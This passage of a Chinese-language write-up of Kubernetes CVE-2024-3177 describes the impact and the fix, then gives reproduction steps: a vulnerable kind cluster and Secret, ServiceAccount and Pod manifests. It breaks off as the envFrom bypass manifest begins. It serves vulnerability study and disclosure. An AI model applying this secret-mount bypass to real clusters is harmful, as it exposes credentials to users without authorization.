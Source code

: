 ### 2. 影响
如果用户具备对pod的create或patch权限，则可以通过创建pod或临时容器挂载任意secret

## 四、防御
更新到修复版本

## 五、漏洞复现

### 1. 复现环境
- 创建包含漏洞版本的集群
```shell
kind create cluster -n cve-2024-3177 --image kindest/node:v1.27.1
```

### 2. 复现过程
- 创建ServiceAccount和Secret
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: my-secret
  namespace: default
type: Opaque
data:
  username: YWRtaW4=  # base64 encoded value for 'admin'
  password: MWYyZDFlMmU2N2Rm  # base64 encoded value for 'password'
---
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
```
- 由于`test`账户没有指定`Secrets`列表，故使用该账户创建的`Pod`无法挂载`my-secret`，尝试挂载会返回错误
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    volumeMounts:
      - mountPath: /etc/my-secret
        name: sc
  volumes:
    - name: sc  
      secret:
        secretName: my-secret
```
![](./error.png)
- 创建`Pod`，使用`envFrom`挂载`Secrets`
```yaml
apiVersion: v1
```